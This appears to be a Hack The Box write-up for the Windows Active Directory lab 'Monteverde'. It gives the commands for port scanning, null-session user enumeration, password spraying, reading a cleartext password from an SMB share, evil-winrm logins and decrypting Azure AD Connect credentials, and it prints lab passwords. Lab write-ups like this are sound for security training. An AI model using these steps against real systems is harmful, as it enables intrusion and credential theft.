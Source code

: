 ```yaml
---
date: 2025-02-03
categories: [Windows, Medium, AD]
---
```


![Monteverde](https://labs.hackthebox.com/storage/avatars/00ceebe5dbef1106ce4390365cd787b4.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [egre55](https://app.hackthebox.com/users/1190)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---









- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

```python
nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.10.172 -oG scan
/opt/extractports scan
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49673,49674,49676,49696 -sCV -Pn 10.10.10.172 -oN ports
```

![image](https://github.com/user-attachments/assets/df7c4a62-b26d-45d6-b631-b06c8e460a7d)

-  I found the domain `MEGABANK.LOCAL`, I added it to the file in the `hosts` file
- When I see the port 53 open, I list the mails servers and find a subdomain that I add to the hosts file

```python
dig @10.10.10.172 MEGABANK.LOCAL mx
```

![image](https://github.com/user-attachments/assets/2950ad1e-3114-4fbc-bedc-31d7f46240d4)

- I connect to rpcclient using a null session to enumerate system users. With those users I check if any of them use the same user name as their password. I find the user SABatchJobs as valid.

```python
rpcclient -U "" -N 10.10.10.172
	enumdomusers
netexec smb 10.10.10.172 -u users -p users --continue-on-success
```

- Making use of the credentials found I list the user's shares and find inside the Users$ folder an azure.xml file with a clear text password.

```python
smbclient -U 'SABatchJobs'  \\\\10.10.10.172\\users$ 
```

![image](https://github.com/user-attachments/assets/bc25e259-c68c-40b1-b176-1f7cec0ffc5a)

- I check which user this credential belongs to and find that it belongs to the user mhope. With these credentials I connect to the system with winrm and I manage to read the first flag.
```python
netexec smb 10.10.10.172 -u users -p '4n0therD4y@n0th3r$' --continue-on-success
evil-winrm -i  10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```

![image](https://github.com/user-attachments/assets/1c336bf2-7370-4629-9834-4e0121a23e64)

- When I list the files in the user's directory I find the .Azure folder

![image](https://github.com/user-attachments/assets/036dadcc-2c2e-476e-9592-26616b146f28)

- When I check which groups this user belongs to, I see that he is a member of the “Azure Admins” group. Searching for information about this I find a [post](https://blog.xpnsec.com/azuread-connect-for-redteam/) that indicates several ways to get the password stored in the database. Searching further I find a [PoC](https://github.com/VbScrub/AdSyncDecrypt). 
- This indicates that we have to move to the folder `C:\Program Files\Microsoft Azure AD Sync Bin` and from this we call the PoC executable.

```python
C:\Windows\temp\AdDecrypLexe -FullSQL
```

- Thanks to this we can read in clear text the password stored in the database and after validating if it belongs to a user, we can see that it is the Administrator's password.

![image](https://github.com/user-attachments/assets/c92472ad-cd0e-474d-b080-2ec74dd74a72)

 - We use the credentials to log in and read the second flag

```python
evil-winrm -i  10.10.10.172 -u Administrator -p 'd0m@in4dminyeah!'
```
